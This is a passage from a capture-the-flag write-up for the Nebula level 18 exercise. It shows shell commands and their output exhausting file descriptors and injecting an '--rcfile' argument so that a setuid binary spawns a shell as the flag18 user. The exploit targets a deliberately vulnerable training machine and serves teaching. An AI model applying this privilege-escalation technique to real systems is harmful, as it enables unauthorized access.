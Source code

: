 ```shell
level18@nebula:~$ python -c "print 'login asdf\n' * 1021" > commands
level18@nebula:~$ python -c "print 'closelog\n'" >> commands
level18@nebula:~$ python -c "print 'shell\n'" >> commands
level18@nebula:~$ cat commands | /home/flag18/flag18 -d /dev/tty
Starting up. Verbose level = 0
logged in successfully (without password file)
/home/flag18/flag18: -d: invalid option
Usage:  /home/flag18/flag18 [GNU long option] [option] ...
        /home/flag18/flag18 [GNU long option] [option] script-file ...
GNU long options:
        --debug
        --debugger
        --dump-po-strings
        --dump-strings
        --help
        --init-file
        --login
        --noediting
        --noprofile
        --norc
        --posix
        --protected
        --rcfile
        --restricted
        --verbose
        --version
Shell options:
        -irsD or -c command or -O shopt_option          (invocation only)
        -abefhkmnptuvxBCHP or -o option
```

This fails because `argv` is passed to `/bin/sh` during the `execve` function
call and `/bin/sh` does not recognize the `-d` option present in our `argv`.

```c
execve("/bin/sh", argv, envp);
```

Adding `--rcfile` or `--init-file` flag pointing to a bogus file seems
sufficient to bypass this check.

```shell
level18@nebula:~$ cat commands | /home/flag18/flag18 --rcfile /dev/null -d /dev/tty
/home/flag18/flag18: invalid option -- '-'
/home/flag18/flag18: invalid option -- 'r'
/home/flag18/flag18: invalid option -- 'c'
/home/flag18/flag18: invalid option -- 'f'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 'l'
/home/flag18/flag18: invalid option -- 'e'
Starting up. Verbose level = 0
logged in successfully (without password file)
whoami
flag18
id
uid=981(flag18) gid=1019(level18) groups=981(flag18),1019(level18)
getflag
You have successfully executed getflag on a target account
```


[exploit-exercises]: https://exploit-exercises.com
[gnu-coreutils-env]: https://www.gnu.org/software/coreutils/manual/html_node/env-invocation.html
[pcre-modifier]: http://php.net/manual/en/reference.pcre.pattern.modifiers.php
[nebula-11-gist]: https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9#file-nebula-level11-md